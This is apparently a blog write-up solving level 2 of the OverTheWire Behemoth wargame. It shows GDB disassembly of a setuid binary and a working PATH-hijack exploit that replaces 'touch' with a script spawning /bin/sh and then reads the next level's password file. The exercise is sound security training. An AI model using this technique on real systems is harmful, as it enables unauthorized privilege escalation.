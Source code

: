```yaml
---

layout: post
title: OverTheWire - Behemoth 2
---
```


Site: http://overthewire.org/wargames/behemoth/ <br>
Level: 2 <br>
Situation: Environment Variable Fun<br><br>

To start we are going to create a directory in /tmp/ to store our files.

{% highlight bash %}
behemoth2@melinda:~$ mkdir /tmp/bhe2
{% endhighlight %}

Let’s go ahead and find out what our file arch is, as well has run it to see what it does.

{% highlight bash %}
behemoth2@melinda:/tmp/bhe2$ file /behemoth/behemoth2
/behemoth/behemoth2: setuid ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=490eca1266dce1c6fa5afd37392837976dba68ef, not stripped

behemoth2@melinda:/tmp/bhe2$ /behemoth/behemoth2
asdfasdfasdf
asdf
^C
behemoth2@melinda:/tmp/bhe2$ ls
5254
behemoth2@melinda:/tmp/bhe2$ cat 5254 
behemoth2@melinda:/tmp/bhe2$ 
{% endhighlight %}

Seems to take input and write a file but doesn’t write anything to the file. Let’s inspect the application in GDB and see what is going on.

{% highlight bash %}
behemoth2@melinda:/tmp/bhe2$ gdb -q /behemoth/behemoth2
Reading symbols from /behemoth/behemoth2...(no debugging symbols found)...done.
(gdb) set disassembly-flavor intel
(gdb) disassemble main
Dump of assembler code for function main:
   -- SNIP --
   0x080485c7 <+90>:	call   0x80486c0 <lstat>
   0x080485cc <+95>:	and    eax,0xf000
   0x080485d1 <+100>:	cmp    eax,0x8000
   0x080485d6 <+105>:	je     0x80485f0 <main+131>
   0x080485d8 <+107>:	mov    eax,DWORD PTR [esp+0x20]
   0x080485dc <+111>:	mov    DWORD PTR [esp],eax
   0x080485df <+114>:	call   0x8048400 <unlink@plt>
   -- SNIP --

   -- SNIP --
   0x080485eb <+126>:	call   0x8048420 <system@plt>
   0x080485f0 <+131>:	mov    DWORD PTR [esp],0x7d0
   0x080485f7 <+138>:	call   0x80483e0 <sleep@plt>
   0x080485fc <+143>:	lea    eax,[esp+0x24]
   0x08048600 <+147>:	mov    DWORD PTR [eax],0x20746163
   0x08048606 <+153>:	mov    BYTE PTR [eax+0x4],0x0
   0x0804860a <+157>:	mov    BYTE PTR [esp+0x28],0x20
   0x0804860f <+162>:	lea    eax,[esp+0x24]
   0x08048613 <+166>:	mov    DWORD PTR [esp],eax
   0x08048616 <+169>:	call   0x8048420 <system@plt>
   -- SNIP --
End of assembler dump.

{% endhighlight %}

So by looking at this dump we notice a few calls being made. lstat","unlink","system","sleep". We know sleep is just a wait function so we can ignore it. This leaves us with lstat, unlink and system. <br><br>
lstat is a function used for checking the status of a file however if it is a syslink then it checks the linked file. <br><br>
Unlink obviously does a few things. It deletes a file if it isn't being used by any other applications. More interestingly if a file is a symlink it removes the link.<br><br>
System executes a system call. <br><br>
Knowing the following we setup a few breakpoints. One on each call, and we inspect the ESP and EAX pointer to see what information is being passed around.

{% highlight bash %}
(gdb) break *0x080485c7
Breakpoint 1 at 0x80485c7
(gdb) break *0x080485df
Breakpoint 2 at 0x80485df
(gdb) break *0x080485eb
Breakpoint 3 at 0x80485eb
(gdb) run
(gdb) x/s $eax
0xffffd64a:	"20518"
(gdb) x/s $esp
0xffffd620:	"J\326\377\377X\326\377\377&P"
(gdb) c
Continuing.
Breakpoint 2, 0x080485df in main ()
(gdb) x/s $eax
0xffffd64a:	"20518"
(gdb) x/s $esp
0xffffd620:	"J\326\377\377X\326\377\377&P"
(gdb) c
Continuing.
Breakpoint 3, 0x080485eb in main ()
(gdb) x/s $eax
0xffffd644:	"touch 20518"
(gdb) x/s $esp
0xffffd620:	"D\326\377\377X\326\377\377&P"
(gdb) 

{% endhighlight %}

From this we can tell that the file being checked for linkage and unlinkage is 20518. However the more interesting thing is the system call being made "touch 20518". By the looks of the code there is no code checking for the actual touch application.<br><br>
Knowing how Linux environment shells work we know we could possible set "touch" to call our own script. When applications ran our environment variables are passed through and utilized during the "system" call. <br><br> To exploit this we just have to redirect the touch command to run a shellscript that spawns a shell. We do this by modifying the paths in our environment.

{% highlight bash %}
behemoth2@melinda:/tmp/bhe2$ echo '/bin/sh' > touch
behemoth2@melinda:/tmp/bhe2$ chmod +x touch
behemoth2@melinda:/tmp/bhe2$ PATH=/tmp/bhe2:$PATH /behemoth/behemoth2
$ whoami
behemoth3
$ cat /etc/behemoth_pass/behemoth3
[OMITTED]
{% endhighlight %}

There is the password